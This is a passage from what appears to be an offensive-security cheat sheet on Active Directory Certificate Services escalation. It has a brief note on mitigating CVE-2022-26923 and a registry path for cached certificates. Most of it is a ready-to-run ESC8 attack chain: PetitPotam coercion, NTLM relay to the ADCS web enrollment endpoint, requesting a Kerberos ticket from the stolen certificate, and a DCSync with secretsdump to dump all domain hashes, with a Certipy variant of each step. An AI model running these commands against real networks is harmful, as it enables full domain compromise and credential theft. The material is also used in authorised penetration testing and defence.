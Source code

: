 ```sh
# Certipy implements more domain escalation techniques
https://github.com/ly4k/Certipy#domain-escalation

# Mitigating CVE-2022-26923
The May 2022 Security Update https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923 for Windows systems includes a patch
This effectively prevents the basic attack described above, where a new machine is added to the domain by an unprivileged user, which automatically inherits “Validated write to DNS host name” rights to the account. However, a user with higher privileges (like GenericWrite) on any machine account would still be able to add a custom dNSHostName value.
```
{% endcode %}

## Stealthy way&#x20;

<pre class="language-sh"><code class="lang-sh"><strong># Look for certificates here
</strong>HKEY_USERS\.DEFAULT\Software\Microsoft\Cryptography\CertificateTemplateCache\
</code></pre>

## ESC8 - coerce to domain admin

To make this attack work we will need :

* ADCS running on the domain with web enrollment enabled.
* A working coerce method (here we use petitpotam unauthent, but an authenticated printerbug or other coerce methods will work the same)

{% code overflow="wrap" fullWidth="true" %}
```bash
# Add a listener to relay SMB authentication to HTTP with impacket ntlmrelayx
ntlmrelayx.py -t http://$IP/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
# Launch the coerce with petitpotam unauthenticated (this won't work no more on up to date AD but other auth methods will)
https://github.com/topotam/PetitPotam
petitpotam.py $GATEWAY_IP domain.local
# Ask for a TGT with the certificate we just get (we copied it to the file cert.b64)
gettgtpkinit.py -pfx-base64 $(cat cert.b64) 'domain.local'/'TARGET_SAMNAME$' 'TGT_CCACHE_FILE'
# We got a TGT so we can launch a DCsync and get all the ntds.dit content
export KRB5CCNAME=tgt.ccache
secretsdump -k -no-pass domain.local/'TARGET_SAMNAME$'@dc.domain.local

########### WITH CERTIPY
https://github.com/ly4k/Certipy
# Setup the listener
certipy relay -ca $HOST_IP -template DomainController
# Trig the coerce with petitpotam
petitpotam.py $GATEWAY_IP domain.local
# Now we got the certificate so we can get the NT hash of the DC and also the TGT with the command:
certipy auth -pfx file.pfx -dc-ip $DC_IP 
# And we can launch a DCsync with secretsdump and the ticket we get
export KRB5CCNAME=tgt.ccache
secretsdump -k -no-pass domain.local/'TARGET_SAMNAME$'@dc.domain.local
# or with the hash
secretsdump -hashes ':$LM_HASH' -no-pass domain.local/'TARGET_SAMNAME$'@dc.domain.local
```
{% endcode %}

